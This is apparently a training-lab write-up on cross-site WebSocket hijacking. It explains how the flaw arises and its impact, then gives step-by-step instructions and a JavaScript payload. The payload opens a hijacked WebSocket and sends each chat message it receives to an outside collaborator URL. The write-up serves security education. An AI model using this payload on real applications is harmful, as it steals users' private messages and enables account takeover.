 ```
It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

## Impact of cross-site WebSocket hijacking

- **Perform unauthorized actions masquerading as the victim user.** As with regular CSRF, the attacker can send arbitrary messages to the server-side application. If the application uses client-generated WebSocket messages to perform any sensitive actions, then the attacker can generate suitable messages cross-domain and trigger those actions.
- **Retrieve sensitive data that the user can access.** Unlike with regular CSRF, cross-site WebSocket hijacking gives the attacker two-way interaction with the vulnerable application over the hijacked WebSocket. If the application uses server-generated WebSocket messages to return any sensitive data to the user, then the attacker can intercept those messages and capture the victim user's data.

### Cross-site WebSocket hijacking

This online shop has a live chat feature implemented using WebSockets.
To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

**Solution**

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In the browser, go to the exploit server and paste the following template into the "Body" section:

    ```
    <script>
        var ws = new WebSocket('wss://your-websocket-url');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>
    ```

7. Replace *your-websocket-url* with the URL from the WebSocket handshake (*your-lab-id.web-security-academy.net/chat*). Make sure you change the protocol from *https://* to *wss://*. Replace *your-collaborator-url* with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
```